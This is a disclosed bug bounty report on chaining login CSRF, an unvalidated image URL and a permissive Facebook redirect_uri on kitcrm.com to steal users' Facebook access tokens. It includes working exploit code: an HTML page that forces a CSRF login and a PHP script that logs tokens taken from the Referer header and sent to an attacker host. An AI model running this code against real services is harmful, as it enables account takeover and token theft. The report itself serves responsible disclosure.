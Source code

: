 # Stealing users' facebook access tokens - kitcrm.com

## Report Details
- **Report ID**: 211477
- **URL**: https://hackerone.com/reports/211477
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-08T00:06:17.999Z
- **Disclosed**: 2017-03-15T21:45:59.073Z

## Reporter
- **Username**: zombiehelp54
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
**Summary:**
I have found a number of minor security vulnerabilities with no impact that when chained together will lead to an attacker being able to steal the current user's facebook access token provided for kitcrm.com

**Description:**
- In kitcrm.com, users register with their shopify account and the products in their store appear in **Priority Products** section.
- When a user tries to edit a priority product, the submitted request will contain the product image url as a POST parameter.
- Users can set their product image to anything, for example `http://evil.com/` will be accepted and added as the product image.
- Now each time the user visits `https://www.kitcrm.com/seller/onboarding/1`, the page will request `http://evil.com/` as an image.
- In `https://[shop].myshopify.com` there is no validation for the authenticity token, so there is a CSRF at the login endpoint (which has no impact at all)
- Users of `kitcrm.com` are authenticated automatically by visiting the endpoint `https://www.kitcrm.com/users/auth/shopify?shop=zh5409.myshopify.com` which redirects to `https://zh5409.myshopify.com/admin/oauth/authorize?client_id=1333a1b83ccdf7a7.....` then they are redirected back to `kitcrm.com` and logged in.
- Current `redirect_uri` configuration for Kitcrm facebook oauth application allows redirection to `https://www.kitcrm.com/<ANYTHING>`

Chaining all of what I mentioned above together, here is how an attacker will be able to steal users' facebook access tokens: 

- An attacker registers a shopify store and then uses it to register a `kitcrm.com` account.
- After that he modifies his priority product image url to `https://evil.com/log_token.php`
- Then he tricks the victim into visiting a specially crafted HTML page that will:
   - CSRF login the victim into the attacker's store
   - CSRF login the victim into `kitcrm.com` 
   - Redirect the victim to `https://www.facebook.com/v2.7/dialog/oauth?client_id=372033192897621&redirect_uri=https%3A%2F%2Fwww.kitcrm.com%2Fseller/onboarding/1&response_type....` which will redirect him back to `https://www.kitcrm.com/seller/onboarding/1?code=[fb_token]`
- After the victim is redirected from facebook to kitcrm.com, a request will be sent to `https://evil.com/log_token.php` with the user's CSRF token in the referrer header.
- Now the attacker can store the token at his server and use it to access the user's facebook account.

**Proof of concept:**
I have created a live proof of concept that does all of that and stores the access token at `tokens.log` file. 
It can be found here: https://alazzazpp.com/shopify/steal.html (Please note that you should allow your browser to access `https://alazzazpp.com` with https since it doesn't have a valid SSL certificate.) 
Also, here is a PoC video:
{F167006}

**PoC Code:**
> Steal.html

```html
<script>
window.onload = function () { 
  window.setTimeout(function() {
              document.getElementById("token").innerHTML = "<iframe src='https://www.kitcrm.com/users/auth/shopify?shop=zh5409.myshopify.com'></iframe>";   
          }, 5000);
          window.setTimeout(function() {
               window.open('https://www.facebook.com/v2.7/dialog/oauth?client_id=372033192897621&redirect_uri=https%3A%2F%2Fwww.kitcrm.com%2Fseller/onboarding/1&response_type=code&scope=email%2Cmanage_pages%2Cread_insights%2Cads_management%2Cpublish_actions%2Cbusiness_management%2Cpublish_pages');
          }, 10000);
finished = 0;
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200 && this.responseText.length > 0) {
     document.getElementById("token").innerHTML = "<b>Your access token is: <br></b>" +this.responseText;
     alert(this.responseText);
     finished = 1;
   }
 };
function fetchToken(){ 
 xhttp.open("GET", "tokens.log?"+Math.random(), true);
 xhttp.send();
 if (finished == 1){
   clearInterval(interval);
 }
}
var interval = setInterval(function(){ fetchToken() } , 10000);
}
</script>
<h4>If no window was opened click <a href="https://www.facebook.com/v2.7/dialog/oauth?client_id=372033192897621&redirect_uri=https%3A%2F%2Fwww.kitcrm.com%2Fseller/onboarding/1&response_type=code&scope=email%2Cmanage_pages%2Cread_insights%2Cads_management%2Cpublish_actions%2Cbusiness_management%2Cpublish_pages" target="_blank">here</a>: 

<div id="token"><h3>Your access token should appear soon.....</h3></div>
<iframe src='data:text/html,<form action="https://zh5409.myshopify.com/admin/auth/login" method="post">
<input name="utf8" value=""><input name="redirect"><input name="highlight=><input name="subdomain" value=zh5409><input name="login" value=███><input name="password" value=P@ss123lol><input name="[remember]" value=1>
</form><script>document.forms[0].submit()</script>'></iframe>
<div id="csrf_login"></div>
```

> log_token.php

```php
<?php
header("Access-Control-Allow-Origin: *");
$referrer = $_SERVER['HTTP_REFERER'];
$token = substr($referrer, strpos($referrer, "=") + 1);    
$fp = fopen('tokens.log', 'w');
fwrite($fp, $token."\n");
fclose($fp);
?>
```

**Recommended fix:**
Mitigation of this vulnerability is pretty simple, just set your facebook oauth application `redirect_uri` to the exact callback endpoint and remove the domain from the white list.

## Attachments
No attachments
